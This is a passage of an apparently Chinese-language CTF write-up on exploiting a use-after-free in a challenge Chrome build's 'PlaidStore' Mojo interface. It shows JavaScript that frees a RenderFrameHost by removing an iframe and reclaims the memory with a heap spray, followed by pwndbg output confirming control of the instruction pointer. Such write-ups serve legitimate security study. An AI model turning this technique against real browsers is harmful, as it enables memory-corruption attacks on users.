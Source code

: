 ```js
        `;
    document.body.appendChild(frame);
    return frame;
}

async function pwn()
{
    let frame = AddFrame();
    frame.contentWindow.addEventListener("DOMContentLoaded", async () => {
      	// trigger the pipe
        await frame.contentWindow.uaf();

      	// prepare the memory
        let renderFrameHostSize = 0xc28
        frameBuf = new ArrayBuffer(renderFrameHostSize);
        let frameData8 = new Uint8Array(frameBuf).fill(0x41);
				
      	// get the child frame
        let plaidStorePtrList = frame.contentWindow.plaidStorePtrList;
				
      	// free the render_frame_host ptr
        frame.remove();

      	// trying to malloc the freed render_frame_host memory and trigger the function.
        let bins = [];
        for(var i=0; i<0x1000; i++){
            plaidStorePtrList[0].storeData("crash", frameData8);
        }
    })

}
pwn();
```

理论上最终`storeData`函数在执行`render_frame_host_->IsRenderFrameLive()`的时候，虚表指针已经被覆盖成了`0x414141410x41414141`会导致访存错误。

实际运行结果如下，可以看到会尝试调用`call [rax+0x160]`，是代码`render_frame_host_->IsRenderFrameLive()`的实现，我们所申请的内存成功控制了对象，并且数据可控`rip`。

```asm
 Thread 1 "chrome" received signal SIGSEGV, Segmentation fault.
0x00005555591ac1e1 in content::PlaidStoreImpl::StoreData(std::__1::basic_string<char, std::__1::char_traits<char>, std::__1::allocator<char> > const&, std::__1::vector<unsigned char, std::__1::allocator<unsigned char> > const&) ()
	...
 RAX  0x4141414141414141 ('AAAAAAAA')
 RBX  0x28b732be0090 ◂— 0x4141414141414141 ('AAAAAAAA')
 RCX  0x28b732be0090 ◂— 0x4141414141414141 ('AAAAAAAA')
 ...
 ► 0x5555591ac1e1    call   qword ptr [rax + 0x160]

   0x5555591ac1e7    test   al, al

pwndbg> i r rax
rax            0x4141414141414141  0x4141414141414141
```

